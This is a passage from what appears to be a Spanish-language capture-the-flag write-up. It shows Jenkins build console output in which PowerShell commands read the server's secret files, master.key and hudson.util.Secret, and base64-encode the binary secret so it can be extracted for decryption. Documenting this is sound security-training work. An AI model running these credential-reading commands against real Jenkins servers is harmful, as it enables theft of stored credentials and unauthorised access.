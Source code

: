 ```null
-a----       10/20/2021  10:08 PM            272 org.jenkinsci.main.modules.instance_identity.InstanceIdentity.KEY     
-a----       10/20/2021  10:21 PM              5 slave-to-master-security-kill-switch                                  
```

Abro los dos y copio su contenido

```null
cmd /c powershell -c type ..\..\secrets\master.key
```

```null
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\Testing>cmd /c powershell -c type ..\..\secrets\master.key 
f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19
```

Pero el secreto no es légible, por lo que hay que convierlo a base64

```null
cmd /c powershell -c type ..\..\secrets\hudson.util.Secret
```

```null
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\Testing>cmd /c powershell -c type ..\..\secrets\hudson.util.Secret 
?aPT¤<�Qw3Š"_rA?Ÿgú›dw-J)
uM+',Ab^n"
\ŒU!Eös›E1Ž1ƒ¦a¡;>cxoU<Ø_Oæ˜T_8	Œ’«¨xd$3IYU
ck1I`}“A”¯Yv-.¡,?ªc
`K?ÿ8
D?aIƒXOD-�"'__¡<„Gt\¤Q†_]’s"?€>J/c®IL('_�Uÿ?JI" -|R'7SŠ=vP7^:^DO{§KI8ýŽz–!U?x"£ˆXEÿP¨fS E4�Lš^^”dØ* E—,Z^uOrtdE,! 7záQ"

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\Testing>exit 0 
Finished: SUCCESS
```


```null
cmd /c powershell -c [convert]::ToBase64String((Get-Content -path "..\..\secrets\hudson.util.Secret" -Encoding byte))
```

```null

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\Testing>cmd /c powershell -c [convert]::ToBase64String((Get-Content -path "..\..\secrets\hudson.util.Secret" -Encoding byte)) 
gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
```
